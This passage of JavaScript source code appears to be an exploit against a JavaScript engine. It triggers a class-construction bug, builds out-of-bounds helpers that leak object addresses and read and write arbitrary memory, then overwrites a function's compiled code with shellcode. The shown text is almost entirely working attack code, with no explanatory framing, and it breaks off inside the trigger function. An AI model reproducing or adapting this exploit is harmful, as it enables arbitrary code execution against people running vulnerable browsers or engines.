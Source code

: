 ```

        class DerivedN extends derived_n(i-1) {
            constructor() {
                super();
                return;
                ${"this.a=0;".repeat(tDerivedNCount)}
            }
        }

        return DerivedN;
    })`);

    gc();


    new (derived_n(tDerivedNDepth))();

    this.buffer_view = new DataView(this.buffer);
    this.leakPtr = function (obj) {
        this.page_buffer.slot = obj;
        return this.buffer_view.getUint32(kSlotOffset, true, ...this.prevent_opt);
    }

    this.setPtr = function (addr) {
        this.buffer_view.setUint32(kBackingStoreOffset, addr, true, ...this.prevent_opt);
    }

    this.read32 = function (addr) {
        this.setPtr(addr);
        return this.page_view.getUint32(0, true, ...this.prevent_opt);
    }

    this.write32 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint32(0, value, true, ...this.prevent_opt);
    }

    this.write8 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint8(0, value, ...this.prevent_opt);
    }

    this.setBytes = function (addr, content) {
        for (var i = 0; i < content.length; i++) {
            this.write8(addr + i, content[i]);
        }
    }
    return this;
}

function trigger() {
    var oob = oobAccess();

    var func_ptr = oob.leakPtr(target_function);
    print('[*] target_function at 0x' + func_ptr.toString(16));

    var kCodeInsOffset = 0x1b;

    var code_addr = oob.read32(func_ptr + kCodeInsOffset);
    print('[*] code_addr at 0x' + code_addr.toString(16));

    oob.setBytes(code_addr, shellcode);

```
